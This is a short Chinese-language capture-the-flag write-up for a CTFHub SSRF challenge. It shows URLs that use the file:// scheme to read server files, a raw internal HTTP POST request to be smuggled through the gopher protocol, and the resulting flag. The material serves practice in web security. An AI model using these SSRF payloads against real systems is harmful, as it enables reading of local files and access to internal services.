 ![image-20250417195654197](image-20250417195654197.png)

源码：

![image-20250417195729171](image-20250417195729171.png)

输点东西进去，提示只能从内网访问

![image-20250417200228366](image-20250417200228366.png)

伪协议file看一下

```http://challenge-c31e7c56cac9116a.sandbox.ctfhub.com:10800/?url=file:///var/www/html/flag.php```

![image-20250417200800990](image-20250417200800990.png)

```http://challenge-c31e7c56cac9116a.sandbox.ctfhub.com:10800/?url=file:///var/www/html/index.php```

![image-20250417200822841](image-20250417200822841.png)

> 好像意思是要把key在flag.php中传进去，而且要从127.0.0.1的内网传（好像是得），就能输出flag,没大看懂
>

使用gopher，一个post协议

>POST /flag.php HTTP/1.1
>Host: 127.0.0.1:80
>Content-Type: application/x-www-form-urlencoded
>Content-Length: 36
>
>key=facbefd1b5ad715b28f22f69767de786

![image-20250417203207655](image-20250417203207655.png)

![image-20250417203221858](image-20250417203221858.png)

**flag:ctfhub{3772ca39025f9412dab29936}**

## 上传文件



![image-20250419214417055](image-20250419214417055.png)




```